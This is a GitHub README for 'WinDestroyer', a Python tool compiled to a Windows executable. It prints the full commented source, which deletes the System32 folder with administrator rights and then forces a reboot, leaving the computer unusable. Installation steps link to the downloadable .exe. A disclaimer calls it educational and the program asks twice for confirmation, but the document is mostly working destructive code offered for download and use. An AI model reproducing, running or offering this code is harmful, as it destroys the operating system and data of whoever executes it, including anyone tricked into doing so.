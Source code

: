 
# WinDestroyer



## What's WinDestroyer?

WinDestroyer is a straightforward program to remove the `System32` folder from Windows. In this way, the operating system will be destroyed. For this very reason, all antivirus software will warn you not to download it, as it will destroy your system. I am not responsible for any misuse of WinDestroyer, this is a project for educational purposes only and without any unethical intention.
## How does it work?

WinDestroyer is created in Python, but has been compiled into an .exe file for simplicity. Here's the code with evereything commented.
```python
# Imports necessary packages.

import shutil
import os
import time
from colorama import Fore, Style, init
import ctypes

# Sets a title to the window.

ctypes.windll.kernel32.SetConsoleTitleW("Win Destroyer")

# Starts colorama (for colors).

init()

# Shows banner.

print(f"""
{Fore.BLUE}
██╗    ██╗██╗███╗   ██╗    ██████╗ ███████╗███████╗████████╗██████╗  ██████╗ ██╗   ██╗███████╗██████╗ 
██║    ██║██║████╗  ██║    ██╔══██╗██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔═══██╗╚██╗ ██╔╝██╔════╝██╔══██╗
██║ █╗ ██║██║██╔██╗ ██║    ██║  ██║█████╗  ███████╗   ██║   ██████╔╝██║   ██║ ╚████╔╝ █████╗  ██████╔╝
██║███╗██║██║██║╚██╗██║    ██║  ██║██╔══╝  ╚════██║   ██║   ██╔══██╗██║   ██║  ╚██╔╝  ██╔══╝  ██╔══██╗
╚███╔███╔╝██║██║ ╚████║    ██████╔╝███████╗███████║   ██║   ██║  ██║╚██████╔╝   ██║   ███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝╚═╝  ╚═══╝    ╚═════╝ ╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝ ╚═════╝    ╚═╝   ╚══════╝╚═╝  ╚═╝
{Fore.CYAN}
| By H64Ox
| GitHub repository: https://github.com/H64Ox/WinDestroyer
""")

# Waits for execution.

time.sleep(1)

# Asks if the user is sure of what's he doing.

start = input(f"{Fore.RED}Are you sure you want to proceed? (this will destroy your system!) [yes / no] ")

while True:
    if start.lower() == 'no':
        print(f"{Fore.CYAN}OK, cancelling operation.")
        time.sleep(1)
        break
    elif start.lower() == 'yes':
        confirm = input(f"{Fore.RED}Please confirm you want to proceed [yes / no] ")

        while True:
            if confirm.lower() == 'no':
                print(f"{Fore.CYAN}OK, cancelling operation.")
                time.sleep(1)
                break
            elif confirm.lower() == 'yes':

                # If user accepted, proceeds to remove System32.

                print(f"{Fore.RED}Removing System32...")
                shutil.rmtree(r"C:\Windows\System32\\", ignore_errors=True)

                # Reboots system to complete the operation.

                print(f"{Fore.CYAN}Done! Restarting PC...")
                os.system("shutdown /r /t 1")
                break
            else:
                confirm = input(f"{Fore.RED}Invalid answer. Please try again [yes / no] ")
        break
    else:
        start = input(f"{Fore.RED}Invalid answer. Please try again [yes / no] ")
```
## Installation

1. Go to the [releases page](https://github.com/H64Ox/WinDestroyer/releases/tag/release) and download the latest WinDestroyer version. You should see a file called `WinDestroyer.exe` where you have downloaded it.

2. When you run it, it will ask you to grant administrator privileges. Simply click on accept.

3. It will ask you twice if you are sure to proceed (Reminder: this will completely destroy your computer).

4. After it completes the operation, the PC will restart and, then, the PC will not work anymore.
